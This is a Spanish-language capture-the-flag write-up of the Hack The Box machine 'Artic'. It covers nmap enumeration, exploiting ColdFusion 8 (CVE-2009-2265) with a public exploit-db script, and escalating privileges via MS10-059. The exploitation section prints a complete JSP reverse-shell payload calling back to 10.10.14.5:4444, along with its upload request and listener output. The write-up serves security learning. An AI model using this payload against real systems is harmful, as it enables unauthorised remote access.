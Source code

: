 # 🏳 Artic

<figure><img src="../../../../.gitbook/assets/999999.png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/9">Artic</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.11</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows Server 2008 R2</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>Colfusion8</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/CVE-2009-2265">CVE 2009-2265</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio realizando un reconocimiento con NMAP a todos los puertos de la máquina Artic.

```bash
nmap -sC -sV -sT 10.10.10.11 -p-
```

<figure><img src="../../../../.gitbook/assets/12 (7).png" alt=""><figcaption></figcaption></figure>

Encontramos el puerto 8500 abierto el cual no conseguimos localizar que servicio está funcionando en él. Lanzamos una petición al servicio y nos encontramos lo siguiente.

<figure><img src="../../../../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>

Cuando entramos a la web en el puerto 8500 encontramos:

<figure><img src="../../../../.gitbook/assets/14 (5).png" alt=""><figcaption></figcaption></figure>

Siguiendo la ruta 10.10.10.11:8500/CFIDE/administrator podemos observar Coldfusion version 8, la cual vamos a intentar atacar.

<figure><img src="../../../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

### 2. Explotación

En este paso vamos a buscar un exploit para aprovecharnos del CVE 2009-2265 y usaremos el exploit que nos proporciona exploit-db realizado por PERGYZ para ayudarnos de ello. Este requiere alguna configuración en el código. Para ello lo abrimos y modificamos la información.

<figure><img src="../../../../.gitbook/assets/15 (3).png" alt=""><figcaption></figcaption></figure>

Una vez hecho esto ejecutamos el código python y obtenemos acceso a la máquina apareciendonos algo similar a esto.

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# python 50057.py

Generating a payload...
Payload size: 1496 bytes
Saved as: acd1c28c77684b0289eac27dd92e36b6.jsp

Priting request...
Content-type: multipart/form-data; boundary=d5515b17acb1451aadb54a6e1cc4eee6
Content-length: 1697

--d5515b17acb1451aadb54a6e1cc4eee6
Content-Disposition: form-data; name="newfile"; filename="acd1c28c77684b0289eac27dd92e36b6.txt"
Content-Type: text/plain

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream vd;
    OutputStream jC;

    StreamConnector( InputStream vd, OutputStream jC )
    {
      this.vd = vd;
      this.jC = jC;
    }

    public void run()
    {
      BufferedReader hq  = null;
      BufferedWriter u5p = null;
      try
      {
        hq  = new BufferedReader( new InputStreamReader( this.vd ) );
        u5p = new BufferedWriter( new OutputStreamWriter( this.jC ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = hq.read( buffer, 0, buffer.length ) ) > 0 )
        {
          u5p.write( buffer, 0, length );
          u5p.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( hq != null )
          hq.close();
        if( u5p != null )
          u5p.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "10.10.14.5", 4444 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--d5515b17acb1451aadb54a6e1cc4eee6--


Sending request and printing response...


                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 0, "/userfiles/file/acd1c28c77684b0289eac27dd92e36b6.jsp/acd1c28c77684b0289eac27dd92e36b6.txt", "acd1c28c77684b0289eac27dd92e36b6.txt", "0" );
                </script>


Printing some information for debugging...
lhost: 10.10.14.5
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: acd1c28c77684b0289eac27dd92e36b6.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.11] 49282

```

<figure><img src="../../../../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

En este punto podremos obtener acceso a la flag del usuario tolis y tendremos que empezar a planificar la escalada de privilegios.

### 3. Escalada de privilegios Root

Llegado a este punto ejecutamos systeminfo para ver en profundidad que sistema estamos trabajando.

<figure><img src="../../../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

Estudiando el sistema con el que estamos funcionando vemos la posibilidad de explotar la vulnerabilidad con varios exploits. Nosotros utilizaremos el [exploit ](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe)el cual nos permite explotar el [MS 10-059](https://support.microsoft.com/es-es/topic/ms10-059-existen-vulnerabilidades-en-la-caracter%C3%ADstica-de-seguimiento-de-servicios-que-podr%C3%ADan-permitir-la-elevaci%C3%B3n-de-privilegios-ebc5aca9-39f2-9c6a-fe20-bab9d27eb710) y generar una escalada de privilegios. Por ello vamos a montar un servidor de Python y descargarnos el compilado en el equipo infectado.

<figure><img src="../../../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

Recogemos la shell del exploit desde nuestro netcat escalando a privilegios de administrador y consguiendo acceso a la flag de root.

<figure><img src="../../../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>



{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}
